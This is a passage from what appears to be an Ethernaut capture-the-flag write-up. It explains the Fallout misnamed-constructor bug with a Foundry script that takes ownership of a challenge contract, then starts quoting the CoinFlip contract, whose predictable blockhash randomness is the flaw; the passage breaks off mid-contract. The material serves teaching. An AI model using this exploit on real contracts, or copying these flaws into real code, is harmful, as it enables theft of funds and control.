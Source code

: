 So after sometime I came to know that in the older versions there is no constructor keyword ,  If the function in a contract has name exactly as the contract's name then it is considered as constructor.

But in our contract the fuction commented as constructor is not a constructor because the names are not exactly same `Fallout` & `Fal1out`.
so using that , I can claim the ownership by just calling that function with some ETH .

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import {Fallout} from "../src/Fal1out.sol";
import {Script } from "forge-std/Script.sol";


contract Fal1outSolution  is Script{

    Fallout falloutInstance = Fallout(payable(0x24a9926C6311c62956efb3d501BAf72D4eb444d8));

    function run() public payable {
        vm.startBroadcast();
        falloutInstance.Fal1out{value : msg.value}();
        vm.stopBroadcast();
    }
}
```
---
# #CoinFlip 

**Challenge :** I need to build up our winning streak by guessing the outcome of a coin flip. That is I need to guess the correct outcome of a coin 10 times in a row .

**Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
```